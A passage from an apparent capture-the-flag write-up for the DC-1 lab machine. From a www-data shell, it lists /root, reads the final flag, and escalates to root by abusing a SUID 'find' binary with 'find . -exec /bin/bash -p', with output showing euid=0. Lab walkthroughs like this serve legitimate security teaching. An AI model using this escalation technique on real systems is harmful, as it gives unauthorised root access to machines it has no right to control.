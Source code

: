 ~~~
~~~

## Root flag

Let's take advantage of it to list files in the `/root` directory. We find the final flag:

~~~
www-data@DC-1:/$ find /root -type f 2>/dev/null
find /root -type f 2>/dev/null
/root/.profile
/root/.drush/drush.complete.sh
/root/.drush/drush.prompt.sh
/root/.drush/cache/download/https---updates.drupal.org-release-history-views-7.x
/root/.drush/cache/download/https---ftp.drupal.org-files-projects-views-7.x-3.20.tar.gz
/root/.drush/cache/download/https---updates.drupal.org-release-history-drupal-7.x
/root/.drush/cache/download/https---ftp.drupal.org-files-projects-ctools-7.x-1.15.tar.gz
/root/.drush/cache/download/https---updates.drupal.org-release-history-ctools-7.x
/root/.drush/cache/download/https---ftp.drupal.org-files-projects-drupal-7.24.tar.gz
/root/.drush/drushrc.php
/root/.drush/drush.bashrc
/root/thefinalflag.txt <------------ final flag (root flag)
/root/.bash_history
/root/.bashrc
/root/.aptitude/config
~~~

Now, let's read the root flag:

~~~
www-data@DC-1:/$ find /root -type f -name thefinalflag.txt -exec cat {} \;
find /root -type f -name thefinalflag.txt -exec cat {} \;
Well done!!!!

Hopefully you've enjoyed this and learned some new skills.

You can let me know what you thought of this little journey
by contacting me via Twitter - @DCAU7
~~~

## Privilege escalation

We can even go further and get a privileged shell, using the following command:

~~~
www-data@DC-1:/var/www/sites/default$ find . -exec /bin/bash -p \; -quit
find . -exec /bin/bash -p \; -quit
bash-4.2# id
id
uid=33(www-data) gid=33(www-data) euid=0(root) groups=0(root),33(www-data)
~~~

